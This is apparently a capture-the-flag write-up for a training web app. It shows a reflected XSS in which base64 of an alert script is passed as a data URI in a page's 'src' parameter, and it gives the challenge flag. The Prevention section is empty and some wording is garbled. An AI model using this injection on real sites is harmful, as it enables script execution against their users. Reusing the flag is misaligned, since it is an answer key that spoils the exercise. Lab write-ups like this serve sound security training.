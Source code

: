 # BASIC XSS

## Flag
```
928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

## Discovery
On the page http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

```
Encrypt the script and put it in the link value
``` 
Base64(<script>alert(1)</script>) = PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

Enter *decripted script* in the name input.

data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

## Use
> Data URI is a clever method of inserting tiny files inline in HTML texts. Instead of referring to a file kept locally on the server, the file is delivered as a base64-encoded string of data prefixed by a mime-type inside the URL itself.
```
data:[mediatype][;base64],data
```


## Prevention


## Documentation
- [Base64 - Decode/Encode](https://https://www.base64decode.org/)
- [What is Cross-Site Scripting (XSS) Off-Domain – Data URI Vulnerability?](https://zofixer.com/what-is-cross-site-scripting-xss-off-domain-data-uri-vulnerability/)
[Data URLs](https://wiki.zacheller.dev/web-app-pentest/xss/data-urls)
- [Web Security Lens](https://https://www.websecuritylens.org/tag/xss/)
---